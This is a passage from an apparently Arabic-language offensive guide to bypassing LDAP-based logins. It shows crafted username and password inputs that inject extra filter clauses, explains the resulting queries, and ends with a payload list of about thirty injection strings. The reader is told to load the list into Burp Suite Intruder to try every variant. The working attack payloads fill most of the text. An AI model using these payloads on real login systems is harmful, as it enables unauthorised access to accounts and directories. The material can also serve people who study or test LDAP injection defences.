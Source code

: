 ### 9. استخدام خصائص أخرى
- **اسم المستخدم**: `*)(cn=*)`
- **كلمة المرور**: `password`
- **كيف يعمل**:
  - يستخدم خاصية أخرى (مثل `cn` بدلاً من `uid`) لمطابقة أي مستخدم.
  - الاستعلام الناتج: `(&(uid=*)(cn=*))(userPassword=password))`
  - قد ينجح إذا كان التطبيق يستخدم خصائص متعددة (مثل `cn`, `sn`).
- **متى ينجح؟**:
  - إذا كان الخادم يدعم خصائص أخرى غير `uid`.

### 10. محاولة إدخال معقدة
- **اسم المستخدم**:   `admin*)(|(objectClass=*`
- **كلمة المرور**: `anything`
- **كيف يعمل**:
  - يحاول مطابقة أي كائن في الدليل باستخدام `objectClass=*`.
  - الاستعلام الناتج: `(&(uid=admin*)(|(objectClass=*))(userPassword=anything))`
  - الجزء `|(objectClass=*)` يطابق أي كائن، مما قد يتجاهل التحقق.
- **متى ينجح؟**:
  - إذا كان التطبيق يسمح باستخدام خصائص عامة مثل `objectClass`.

---
11 . 
- **اسم المستخدم**: `*)(|(userPassword=`
- **كلمة المرور**: `(*`


# احسن طريقه
### روح حط النص ده في ملف txt واستخدم ال burb suite في ال intruder  علشان تجربلك كل الاحتمالات لل payload

```
*)(uid=*)
password
*)(uid=*))(|(uid=*
admin)(!(&(1=0
admin*
admin)
*)(|(userPassword=
admin*)(|(objectClass=*
*)(cn=*)
*)
admin)(|(uid=admin
*
*)(&
*))%00
)(cn=))\x00
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
root*
root*)((|userpassword=*)
```